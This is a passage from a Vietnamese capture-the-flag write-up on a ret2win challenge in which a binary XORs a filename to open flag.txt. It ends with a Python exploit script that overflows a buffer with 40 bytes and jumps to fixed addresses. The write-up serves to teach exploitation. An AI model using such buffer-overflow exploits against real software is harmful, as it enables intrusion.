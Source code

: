 Chương trình sẽ XOR `filename` của ta với `0x1` và khi XOR xong filename sẽ là `flag.txt` và từ đó dùng `fopen` và `fgets` để mở file và read file thôi

## Exploit Development

Như vậy đây chỉ là một bài `ret2win` đơn giản, nhưng đòi hỏi bạn phải phân tích kĩ, và đây sẽ là exploit của mình:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *

context.log_level = 'debug'
exe = context.binary = ELF('./chall', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='''

        b *vuln+31
        c
        '''.format(**locals()), *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

p = start()

# ==================== EXPLOIT ====================

def method2():

    pl = b'A'*offset + p64(0x0000000000401331) + p64(exe.sym.__dl_relocate_static_pie)

    sl(pl)

def exploit():

    global offset

    offset = 40
    method2()

    interactive()

if __name__ == '__main__':
  exploit()
```
